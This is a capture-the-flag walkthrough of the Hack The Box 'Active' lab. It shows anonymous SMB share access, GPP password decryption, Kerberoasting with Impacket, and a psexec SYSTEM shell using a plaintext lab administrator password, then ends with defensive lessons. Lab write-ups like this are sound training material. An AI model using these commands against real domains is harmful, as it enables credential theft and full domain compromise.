 # HTB_Active
My walkthrough for the HTB Active Machine

🎃 HTB Active Machine Write-Up 🎃
A Spooky Journey Through Kerberoasting & GPP Exploitation
Jack O'Lantern Divider

📜 Table of Contents

1: Overview

2: Attack Path

3: Key Exploits

4: Lessons Learned

5: References

6: Final Flags

👻 1: Overview
Machine Name: Active (HTB - Easy)
OS: Windows (Active Directory)
IP: 10.129.41.241
Difficulty: ★★☆☆☆


"A haunted Active Directory box with hidden treats—Kerberoasting and GPP passwords!"

🧟 2: Attack Path

1️⃣ Enumeration
Nmap Scan: Found SMB, LDAP, Kerberos.

![1 nmap](https://github.com/user-attachments/assets/120213ff-2b24-48d9-b69b-a574889385f8)


Anonymous SMB Access: Found Replication share with Groups.xml.

![3 groups xml](https://github.com/user-attachments/assets/7f119aba-a0a7-4c98-b191-e77f89387f97)


```bash
smbclient -L //10.129.41.241
```
2️⃣ Exploitation
GPP Password Decryption:

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
Password: 🎃🎃🎃🎃🎃

![4 user pwd cracked](https://github.com/user-attachments/assets/4d3e0157-0f6f-4d91-acb2-b3e09b98ef0f)


Kerberoasting Attack:

```bash
GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.129.41.241 -request
```
Cracked Hash: 🎃🎃🎃🎃

3️⃣ Privilege Escalation
Admin Shell via psexec.py:

![6 admin hash](https://github.com/user-attachments/assets/00ea11be-0cc8-479d-ad3b-e754bdd0ec3f)


```bash
python3 psexec.py active.htb/administrator:Ticketmaster1968@10.129.41.241
```
Result: nt authority\system

🎃 3: Key Exploits
Vulnerability	Exploit Method	Impact
Group Policy Preferences (GPP)	Decrypted Groups.xml password	Credential Leak
Kerberoasting	Cracked TGS ticket for Administrator	Domain Admin Access
SMB Misconfig	Anonymous Replication share access	Initial Foothold
Spooky GIF

💀 4: Lessons Learned

✅ Never store passwords in GPP files (Microsoft deprecated this for a reason!).

✅ Kerberoasting is deadly—always use strong service account passwords.

✅ Restrict SMB shares (Replication should not be world-readable).

📚 5: References

Kerberoasting Explained (ADSecurity) [link](https://adsecurity.org/?p=2293)

GPP Password Decryption (HackTricks) [link](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/group-policy-preferences)

Impacket GitHub [link](https://github.com/fortra/impacket)

Ghost Divider

🏴‍☠️ 6: Final Flags

user.txt: 🎃🎃🎃🎃🎃🎃

![5 user txt](https://github.com/user-attachments/assets/403bd635-f5dd-4f0e-90b6-5a16384f9dc9)


root.txt: 👻👻👻👻👻👻

![7 root flag](https://github.com/user-attachments/assets/0a2809cb-50c9-4b90-bc58-1843ed14948b)


👻 Happy Hacking!
"Like a ghost in the machine, you’ve conquered Active!"

🎃 Made with spooky vibes by Lantern

